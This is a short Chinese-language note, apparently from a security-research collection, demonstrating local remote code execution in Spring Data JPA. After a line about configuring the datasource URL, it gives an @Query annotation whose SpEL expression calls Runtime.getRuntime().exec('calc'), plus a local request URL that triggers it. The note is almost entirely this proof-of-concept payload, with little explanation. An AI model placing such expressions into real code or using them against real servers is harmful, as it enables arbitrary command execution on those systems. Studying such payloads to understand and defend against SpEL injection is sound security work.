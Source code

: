 # Spring data jpa

需要先配置application下的jdbc中url

```
spring.datasource.url
```

## 本地RCE

```
@Query(value="select * from user where id = ?#{T(Runtime).getRuntime().exec('calc')}", nativeQuery=true)
```

发起请求

```
http://127.0.0.1:8080/get/1
```

